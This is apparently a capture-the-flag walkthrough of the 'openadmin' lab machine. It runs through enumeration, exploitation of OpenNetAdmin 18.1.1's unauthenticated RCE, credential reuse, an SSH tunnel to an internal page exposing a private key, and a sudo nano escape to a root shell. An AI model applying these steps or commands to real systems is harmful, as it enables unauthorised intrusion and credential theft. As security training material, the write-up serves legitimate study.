










# Walkthrough 


## Information Gathering 

The target ip resolves to the default Apache2 webpage. 
**Version 2.4.29**
Ubuntu OS 


### Nmap Scans: 

All ports scan: 
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


`-sC -sV `scan: 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### Directory Enumeration 

`gobuster dir -u http://10.129.47.205 -w /usr/share/wordlists/dirb/common.txt`:

```
.htpasswd            (Status: 403) [Size: 278]
artwork              (Status: 301) [Size: 316] [--> http://10.129.47.205/artwork/]
.hta                 (Status: 403) [Size: 278]
.htaccess            (Status: 403) [Size: 278]
index.html           (Status: 200) [Size: 10918]
music                (Status: 301) [Size: 314] [--> http://10.129.47.205/music/]
server-status        (Status: 403) [Size: 278]
Progress: 4613 / 4613 (100.00%)
```

#### /artwork directory:




#### /music directory:


Appears to be two different websites depending on which directory you go to. 

The webpage above has a login page that when clicked leads to the page below: 




---

So far, two webpages have been found, with each potentially presenting their own vulnerabilities.
Vhost enumeration was carried out against the target to scan for subdomains, but nothing was flagged. 

#### /sierra 

Another scan was conducted against the target, this time with a larger wordlist and discovered another directory, `/sierra`.

`gobuster dir -u http://10.129.47.205 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 75`

```
music                (Status: 301) [Size: 314] [--> http://10.129.47.205/music/]
sierra               (Status: 301) [Size: 315] [--> http://10.129.47.205/sierra/]
artwork              (Status: 301) [Size: 316] [--> http://10.129.47.205/artwork/]
Progress: 114442 / 114442 (100.00%)
```


Next steps:

**enumerate the directories discovered and remember to add extensions like html onto the scan** html is likely the one that would reveal most.


#### /music enumeration: 

`gobuster dir -u http://10.129.47.205/music -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 75 -x html`

```
blog.html            (Status: 200) [Size: 6728]
img                  (Status: 301) [Size: 318] [--> http://10.129.47.205/music/img/]
main.html            (Status: 200) [Size: 931]
css                  (Status: 301) [Size: 318] [--> http://10.129.47.205/music/css/]
js                   (Status: 301) [Size: 317] [--> http://10.129.47.205/music/js/]
contact.html         (Status: 200) [Size: 6223]
index.html           (Status: 200) [Size: 12554]
artist.html          (Status: 200) [Size: 20133]
playlist.html        (Status: 200) [Size: 8885]
category.html        (Status: 200) [Size: 23863]
blog.html            (Status: 200) [Size: 11523]
images               (Status: 301) Size: 323 [--> http://10.129.47.205/artwork/images/]
services.html        (Status: 200) [Size: 11749]
main.html            (Status: 200) [Size: 931]
css                  (Status: 301) Size: 320 [--> http://10.129.47.205/artwork/css/]
js                   (Status: 301) Size: 319 [--> http://10.129.47.205/artwork/js/]
contact.html         (Status: 200) [Size: 8999]
about.html           (Status: 200) [Size: 11156]
index.html           (Status: 200) [Size: 14461]
fonts                (Status: 301) Size: 322 [--> http://10.129.47.205/artwork/fonts/]
single.html          (Status: 200) [Size: 17627]
Progress: 228884 / 228884 (100.00%)Progress: 228884 / 228884 (100.00%)
```


#### /sierra enumeration:

`gobuster dir -u http://10.129.47.205/sierra -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 75 -x html`

```
img                  (Status: 301) [Size: 319] [--> http://10.129.47.205/sierra/img/]
service.html         (Status: 200) [Size: 22090]
css                  (Status: 301) [Size: 319] [--> http://10.129.47.205/sierra/css/]
js                   (Status: 301) [Size: 318] [--> http://10.129.47.205/sierra/js/]
contact.html         (Status: 200) [Size: 15853]
portfolio.html       (Status: 200) [Size: 13000]
blog.html            (Status: 200) [Size: 20477]
index.html           (Status: 200) [Size: 43029]
vendors              (Status: 301) [Size: 323] [--> http://10.129.47.205/sierra/vendors/]
elements.html        (Status: 200) [Size: 24524]
fonts                (Status: 301) [Size: 321] [--> http://10.129.47.205/sierra/fonts/]
Progress: 228884 / 228884 (100.00%)
```


#### /artwork enumeration: 

`gobuster dir -u http://10.129.47.205/artwork -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 75 -x html`

```
blog.html            (Status: 200) [Size: 11523]
images               (Status: 301) [Size: 323] [--> http://10.129.47.205/artwork/images/]
services.html        (Status: 200) [Size: 11749]
main.html            (Status: 200) [Size: 931]
css                  (Status: 301) [Size: 320] [--> http://10.129.47.205/artwork/css/]
js                   (Status: 301) [Size: 319] [--> http://10.129.47.205/artwork/js/]
contact.html         (Status: 200) [Size: 8999]
about.html           (Status: 200) [Size: 11156]
index.html           (Status: 200) [Size: 14461]
fonts                (Status: 301) [Size: 322] [--> http://10.129.47.205/artwork/fonts/]
single.html          (Status: 200) [Size: 17627]
Progress: 228884 / 228884 (100.00%)
```


---

## Vulnerability Assessment: 

### /ona 

In the /music directory of the webserver is a login link. Clicking on this leads to:


the `/ona` is an acronym for **OpenNetAdmin**:

**OpenNetAdmin** **v18.1.1** is an open-source IP Address Management (IPAM) application used to track and manage a database inventory of IP networks, subnets, and hosts. It provides a centralized web interface and a command-line interface (CLI) to help organizations replace network spreadsheets and automate configurations for DNS and DHCP servers. 
However, in the context of cybersecurity and penetration testing, this specific version (v18.1.1) is highly infamous for containing a critical, unauthenticated Remote Code Execution (RCE) vulnerability.


https://www.exploit-db.com/exploits/47691  -  **OpenNetAdmin 18.1.1 / Remote Code Execution**

OpenNetAdmin version 18.1.1 contains a critical remote code execution vulnerability via command injection in the `xajax` module. Unsanitized user input passed to internal diagnostic tools (like the ping command via shell_exec) allows unauthenticated attackers to run arbitrary system commands.

https://medium.com/r3d-buck3t/remote-code-execution-in-opennetadmin-5d5a53b1e67 - How it works


---

## Exploitation: 

### OpenNetAdmin 18.1.1 / Remote Code Execution

https://www.exploit-db.com/exploits/47691  -  Exploit PoC

Paste the exploit into a `.sh` file on the attacking machine and the syntax is:

```
bash exploit.sh http://target/ona
```




```
$ cat local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

$ 


```


The /home directory contains two users: `jimmy` & `joanna`. In this case, the credentials we discovered were also used by `jimmy` for his account:  n1nj4W4rri0R!

`jimmy:n1nj4W4rri0R!`




## Privilege Escalation: 


### jimmy > joanna

`sudo -l `
```
Sorry, user jimmy may not run sudo on openadmin.
```




the admin password is `admin`

the guest password is `test`


```
jimmy@openadmin:/var/www/internal$ cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```


Now to find the main.php webpage.



The host found was added to the attacking machines /etc/hosts file and more enumeration of the machine was carried out. 

Within the `/var/www/html `folder is a file called `index.php` and it contains: 

```
            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");

```

John was used to try and crack the password but this was unsuccessful so the website `crackstation` was used and revealed the password to be a sha512 hash of `Revealed`. 

In order for the password to be used, access to the internally hosted webpage needs to be accessed. But in order to do that, we need to reconnect over a tunnel: 


```
ssh jimmy@10.10.10.171 -L 52846:localhost:52846
```

This command creates an **SSH local port forward (SSH tunnel)** while logging into the remote machine as `jimmy`.

Access to the internal webpage is now available on that attacking machine: 




After logging in to the webpage, we find a SSH private key, likely to be for `joanna`:




The private key is copied onto the attacking machine and `john` is used to crack the password:



SSH access to `joanna` on the machine is now open and the first flag can be found in `/home/joanna/user.txt`. 


### Privesc: joanna > root

`joanna@openadmin:/var/www$ sudo -l`
```
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

The nano version running on this machine is vulnerable to a `nano editor escape` technique.

The sequence to escalate privileges is as follows:

```
sudo /bin/nano /opt/priv
```

^R - Ctrl+R will open Nano's 'Read File' prompt 

Then immediately after:

^X - Ctrl+X which will open 'Execute Command' prompt.

Followed lastly by:

```
reset; sh 1>&0 2>&0
```  

- `reset` to restore the terminal if it's in an odd state.
- `sh` to start a shell.
- `1>&0 2>&0` redirects standard output and standard error to the terminal so the shell is interactive.

Through the nano editor escape, the root flag can then be found:




---
# Summary:

The assessment began with reconnaissance and enumeration of the target, identifying two exposed services: SSH (OpenSSH 7.6p1) and an Apache 2.4.29 web server running on Ubuntu. Directory enumeration revealed several web applications hosted under the `/artwork`, `/music`, and `/sierra` directories. Further investigation of the `/music` application uncovered an instance of OpenNetAdmin (ONA) v18.1.1, a version known to be vulnerable to an unauthenticated remote command execution vulnerability. Additional enumeration of the discovered web content and internal virtual hosts identified sensitive configuration files, application credentials, and an internally hosted administrative portal that became accessible through SSH port forwarding.

Exploitation of the OpenNetAdmin vulnerability provided initial command execution on the target, allowing database credentials to be recovered and successfully reused to obtain SSH access as the user **jimmy**. Further enumeration revealed an internally accessible web application that exposed **joanna's** SSH private key, which was obtained and cracked to gain SSH access as the second user. Finally, privilege escalation was achieved by abusing a misconfigured `sudo` rule that permitted execution of Nano as root. Using a Nano editor escape technique, a root shell was obtained, resulting in complete compromise of the target system and access to both the user and root flags.

---


